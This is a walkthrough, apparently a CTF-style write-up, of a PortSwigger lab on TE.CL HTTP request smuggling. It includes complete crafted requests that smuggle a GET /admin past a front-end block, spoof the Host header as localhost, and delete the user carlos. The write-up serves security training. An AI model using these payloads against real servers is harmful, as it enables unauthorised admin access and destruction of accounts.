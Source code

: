 # Exploiting HTTP request smuggling to bypass front-end security controls, TE.CL vulnerability

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-te-cl), you'll learn: Exploiting HTTP request smuggling to bypass front-end security controls, TE.CL vulnerability! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab involves a front-end and back-end server, and the back-end server doesn't support chunked encoding. There's an admin panel at `/admin`, but the front-end server blocks access to it.

To solve the lab, smuggle a request to the back-end server that accesses the admin panel and deletes the user `carlos`.

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-7/images/Pasted%20image%2020230201160904.png)

According to the lab's background, there is an admin panel at `/admin`.

Let's try to access it:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-7/images/Pasted%20image%2020230201160941.png)

Burp Suite HTTP history:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-7/images/Pasted%20image%2020230201160949.png)

As you can see, that path is blocked.

To bypass that, we can try to smuggle an evil request.

But before we do that, let's test is it vulnerable to **CL.TE** (Front-end uses `Content-Length` header, back-end uses `Transfer-Encoding` header) or **TE.CL** (Front-end uses `Transfer-Encoding` header, back-end uses `Content-Length` header) HTTP request smuggling.

**To do so, we can send a `/` request to Burp Suite's Repeater:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-7/images/Pasted%20image%2020230201161146.png)

**Then change the request method to POST:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-7/images/Pasted%20image%2020230201161205.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-7/images/Pasted%20image%2020230201161209.png)

- CL.TE:

**We can first send an attack request, then send a normal request to `/`.**

**Attack request:**
```http
POST / HTTP/1.1
Host: 0acf00f60450a586c32e10f900470091.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Transfer-Encoding: chunked

0

GET /404pls HTTP/1.1
X-Foo: x
```

This will smuggle a 404 page GET request.

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-7/images/Pasted%20image%2020230201161512.png)

However, when we send this smuggled request, the back-end server returns HTTP status code "500 Internal Server Error".

**Which means it's using TE.CL**.

- TE.CL:

**Again, we can first send an attack request, then send a normal request to `/`.**

**Attack request:**
```http
POST / HTTP/1.1
Host: 0acf00f60450a586c32e10f900470091.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

aa
GET /404pls HTTP/1.1
Host: 0acf00f60450a586c32e10f900470091.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 20

smuggled=yes
0


```

This attack request will smuggle a 404 page GET request.

> Note: To send this request, you must include the trailing sequence `\r\n\r\n` following the final `0`, and go to the Repeater menu and ensure that the “Update Content-Length” option is unchecked.

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-7/images/Pasted%20image%2020230201162025.png)

**Normal request:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-7/images/Pasted%20image%2020230201162119.png)

In here, when we send the normal request, it'll also send a `/404pls` GET request, thus returns HTTP status "404 Not Found".

Hence, it's confirm that the web application is **vulnerable to TE.CL HTTP request smuggling.**

**Now, we can do the same thing to bypass the `/admin` admin panel:**
```http
POST / HTTP/1.1
Host: 0acf00f60450a586c32e10f900470091.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

a9
GET /admin HTTP/1.1
Host: 0acf00f60450a586c32e10f900470091.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 20

smuggled=yes
0


```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-7/images/Pasted%20image%2020230201162346.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-7/images/Pasted%20image%2020230201162352.png)

We can confirm that we've bypassed the `/admin` access block!

However, it said: "Admin interface only available to local users".

Luckly, we can still bypass that.

**Let's try changing the `Host` header to `localhost`:**
```http
POST / HTTP/1.1
Host: 0acf00f60450a586c32e10f900470091.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

79
GET /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 20

smuggled=yes
0


```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-7/images/Pasted%20image%2020230201162610.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-7/images/Pasted%20image%2020230201162620.png)

Boom! We can finally access to the admin panel!

**Let's delete user `carlos`!**
```http
POST / HTTP/1.1
Host: 0acf00f60450a586c32e10f900470091.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

90
GET /admin/delete HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 36

username=carlos&smuggled=yes
0


```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-7/images/Pasted%20image%2020230201162800.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-7/images/Pasted%20image%2020230201162806.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-7/images/Pasted%20image%2020230201162812.png)

Nice!

# What we've learned:

1. Exploiting HTTP request smuggling to bypass front-end security controls, TE.CL vulnerability